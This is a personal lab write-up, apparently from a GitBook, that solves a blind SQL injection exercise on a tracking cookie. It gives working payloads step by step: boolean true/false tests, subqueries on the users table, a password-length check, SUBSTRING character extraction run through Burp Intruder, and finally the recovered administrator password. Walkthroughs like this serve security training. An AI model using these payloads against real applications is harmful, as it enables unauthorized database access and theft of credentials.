 # SQL injection labs

## Lab: Blind SQL injection with conditional responses



The application uses a tracking cookie for analytics

The database contains a different table called <mark style="color:red;">**`users`**</mark>, with columns called <mark style="color:red;">**`username`**</mark> and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the <mark style="color:red;">**`administrator`**</mark> user.



**`Cookie: TrackingId=St10uonYH4szuC66`**

```sql
Cookie: TrackingId=St10uonYH4szuC66' AND '1'='1 #true
Cookie: TrackingId=St10uonYH4szuC66' AND '1'='2  #false
```



ok i will use limit

```sql
' AND (SELECT 'X' from users limit 1)='x'--
```

<figure><img src="../../../../.gitbook/assets/image (132).png" alt=""><figcaption><p>Welcome back!</p></figcaption></figure>

ok i will try use table users and column username

```sql
AND+(SELECT+username+FROM+users+WHERE+username='administrator')='administrator'--
```

<figure><img src="../../../../.gitbook/assets/image (133).png" alt=""><figcaption></figcaption></figure>

ok in this case i'll  tracking passsword using SUBSTRING() function to extract a single character from the password



```sql
' AND (SELECT username FROM users WHERE username='administrator' and LENGTH(password)>1)='administrator'--
```

<figure><img src="../../../../.gitbook/assets/image (134).png" alt=""><figcaption></figcaption></figure>

i will try numbers 1 to 19 all valid  password >19

go to intruder  > cluster bomb

```sql
'+AND+(SELECT+substring(password,1,1)+FROM+users+WHERE+username%3d'administrator')%3d'8'--
```

<figure><img src="../../../../.gitbook/assets/image (135).png" alt=""><figcaption></figcaption></figure>

```
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20
8oiqhj3w6k9bfypfq7j1
```

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

offfffffffffffffffffffffff! :smile: :tada:
